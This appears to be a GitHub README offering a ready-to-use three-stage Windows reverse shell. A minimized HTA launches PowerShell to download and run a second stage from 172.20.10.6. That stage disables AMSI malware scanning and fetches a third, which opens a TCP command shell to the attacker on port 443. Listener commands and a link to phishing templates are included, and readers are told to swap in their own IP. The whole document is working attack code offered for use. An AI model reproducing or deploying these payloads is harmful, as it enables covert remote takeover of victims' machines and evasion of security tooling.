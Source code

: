 # reverseshell
A small 3-stage reverse shell payload for windows

Change the IP and PORT on all payloads and enjoy!😉

STAGE1.hta 

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
<!DOCTYPE html>
<html>
<head>
	<HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no"SYSMENU="no" CAPTION="no" />
	<script language="VBScript">
	Function var_func()
	Dim var_shell
	Set var_shell = CreateObject("Wscript.Shell")
	var_shell.run "powershell.exe iex (iwr http://172.20.10.6/stage2.ps1 -UseBasicParsing)", 0, true
	End Function
	var_func
	self.close
	</script>
</head>
<body>
</body>
</html>
````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE2.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
iex (iwr http://172.20.10.6/stage3.ps1 -UseBasicParsing)
````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE3.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$client = New-Object System.Net.Sockets.TCPClient('172.20.10.6',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````


CMD!!

sudo python3 -m http.server 80
sudo nc -nvlp 443



https://cyberchef.io/
https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master


HAPPY HACKING!

